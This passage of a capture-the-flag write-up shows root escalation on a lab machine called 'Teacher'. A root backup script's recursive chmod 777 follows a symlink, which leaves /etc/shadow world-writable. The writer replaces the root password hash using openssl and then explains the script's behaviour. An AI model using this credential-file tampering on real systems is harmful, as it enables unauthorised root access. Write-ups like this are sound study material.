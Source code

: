 ```
giovanni@teacher:~/work$ ls -l /etc/shadow
-rwxrwxrwx 1 root shadow 961 Jun 27  2018 /etc/shadow
```
Now we can reuse giovanni /etc/shadow password or create a new password using openssl:
```
[root@kali Teacher ]$ openssl passwd -6 -salt xyz password
$6$xyz$ShNnbwk5fmsyVIlzOf8zEg4YdEH2aWRSuY4rJHbzLZRlWcoXbxxoI0hfn0mdXiJCdBJ/lTpKjk.vu5NZOv0UM0
```
now we can su to root providinf the password 'password'
```
giovanni@teacher:~/work$ su -
Password:
root@teacher:~# id
uid=0(root) gid=0(root) groups=0(root)
```
and we owned root.
For the sake of knowledge, now that we are root, let's examine again the backup script:
```
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
```
If we try to run this manually, with the tmp folder replaced with the symlink to /etc/shadow we can see in the stderr the following output:  
```
courses/algebra/
courses/algebra/answersAlgebra
tar (child): tmp/backup_courses.tar.gz: Cannot open: Not a directory
tar (child): Error is not recoverable: exiting now
tar: Child returned status 2
tar: Error is not recoverable: exiting now
/usr/bin/backup.sh: line 4: cd: tmp: Not a directory
tar: backup_courses.tar.gz: Cannot open: No such file or directory
tar: Error is not recoverable: exiting now
```
So, the script:
* changes directory to /home/giovanni/work
* tar a file without success (because tmp is 'Not a directory')
* cd to tmp that fails (because tmp is 'Not a directory')
* the tar extraction fails again because the previous archive has not been created, so it gives 'No such file or directory'
* and then recursively chmod with 777 the current directory which is /home/giovanni/work (containing the symlink to /etc/shadow as well)

